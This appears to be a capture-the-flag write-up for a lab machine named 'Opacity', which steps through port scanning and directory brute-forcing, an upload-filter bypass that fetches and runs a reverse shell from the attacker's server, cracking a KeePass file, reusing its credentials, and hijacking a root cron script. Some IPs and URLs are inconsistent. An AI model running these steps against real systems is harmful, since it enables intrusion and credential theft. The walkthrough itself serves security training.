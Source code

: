 <h2>Target: 10.10.194.154  Opacity </h2>

<b>Initial Access:</b><br>
Step 1: nmap -Pn 10.10.194.154 -p- --min-rate=5000|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Nmap returns open ports: 22,80,139,445

Step 2: Enumerate the open ports further using nmap: nmap -Pn 10.10.194.154 --min-rate=5000 -p 22,80,139,445 -sC -sV -oN nmap-opacity

Step 3: Run directory brute force on port 80: dirsearch -r -u http://10.6.64.178 -e php -f -o dsearch-opacity

Dirsearch found a directory of /cloud.  

Step 4: Navigating to http://10.6.64.178/cloud shows the page has an upload image function.  Since the upload function takes a url for uploading, create a file on our local pc called “php-rev-shell.php” and host the file using a python web server: python3 -m http.server 80

The upload image function has a filter in place that checks that the filename ends in .jpg, .jpeg, or .png.  To bypass the filter, enter a url of http://php-rev-shell.php#.jpg

Step 5: Open a netcat listener to catch the reverse shell: nc -lvnp 443

Step 6: Enter the url http://ourip/php-rev-shell.php#jpg and click on ‘upload image’. 

The image uploads and runs the reverse shell.  We get a shell on our netcat listener as user www-data.

____________________________________________
<b>Lateral Movement:</b><br>
Step 1: Navigating to the directory /opt shows a keepass file called dataset.kdbx.  Download the file /opt/dataset.kdbx

Step 2: Crack the hash on dataset.kdbx.  First use john to convert the file to a hash john can use: keepass2john dataset.kdbx > john.txt

Next, run john to crack the hash: john hash –wordlist=/usr/share/wordlists/rockyou.txt

John cracked the hash to “741852963”

Step 3: Open the keepass file using the command: keepassxc dataset.kdbx

This opens a kepassxc gui. Enter the password we got from john: 741852963

After entering the password the keepassxc gui shows credentials: username ‘sysadmin’ and password ‘Cl0udP4ss40p4city#8700’

Step 4: Check the usernames on the target shell in the file /etc/passwd: cat /etc/passwd |grep sh

This shows the target shell has a username of ‘sysadmin’.  The same username we found in the keepass file.  

Step 5: On the target shell, change to user sysadmin: su sysadmin → enter the password when prompted

We have shell as user sysadmin.  We can get the flag in /home/sysadmin/local.txt
_____________________________________________
<b>Privilege Escalation</b><br>
Step 1: Check for background processes that are running.  In order to do this we will use pspy.  Upload pspy to the target shell and run pspy.  

Pspy shows a process running a file called /home/sysadmin/scripts/script.php as the root user.  

Step 2: File permissions on script.php prevent editing or deleting it.  

Check the file permissions in the directory above script.php → /home/syadmin/scripts.

Again, file permissions prevent editing or deleting the directory ‘scripts’.  However, because the directory ‘scripts’ is in the directory ‘/home/sysadmin’ which is under sysadmin user permissions, we can change the name of the directory ‘scripts’: mv scripts oldscripts
 
Step 3: Create a new directory called ‘scripts’: mkdir scripts

Step 4: Upload a php reverse shell called ‘script.php’ to the target shell in the directory /home/sysadmin/scripts

Step 5: Open a netcat listener to catch the reverse shell: rlwrap nc -lnvp 443

Wait a few moments for the task to run.  Once the task runs we get a shell as root on our netcat listener.  We can get the flag in /root/proof.txt
